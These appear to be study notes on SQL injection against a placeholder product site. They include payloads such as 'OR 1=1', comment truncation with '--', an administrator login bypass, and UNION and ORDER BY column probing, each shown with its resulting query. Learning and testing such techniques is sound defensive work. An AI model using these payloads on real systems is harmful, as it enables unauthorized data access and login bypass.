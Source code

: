# SQL Injection

* `'`. `OR 1=1`, `OR 1=2`
* `WHERE` and `SELECT` are the most common. 


By adding `released=0`, it returns all products, including unreleased ones. 
* `https://example.com/products?category=Gifts`
* `SELECT * FROM products WHERE category = 'Gifts' AND released = 0`



A comment indicator `--` comments out anything after. As a result, it returns all products. 

* `https://example.com/products?category=Gifts'--`
* `SELECT * FROM products WHERE category = 'Gifts'--' AND released = 0`


This also returns all products.

* `https://example.com/products?category=Gifts'+OR+1=1--`
* `SELECT * FROM products WHERE category = 'Gifts' OR 1=1` AND released = 0`
* `SELECT * FROM users WHERE username = 'administrator'--' AND password = ' ' `


### UNION

`UNION` retrieve data from additional table. `UNION` to work, 
* The individual queries must return the same number of columns. 
* Also, the data types in each column must be compatible between the queries. 
```
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

To find the number of columns, keep trying using `ORDER BY` until you get an error. 
```
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
```




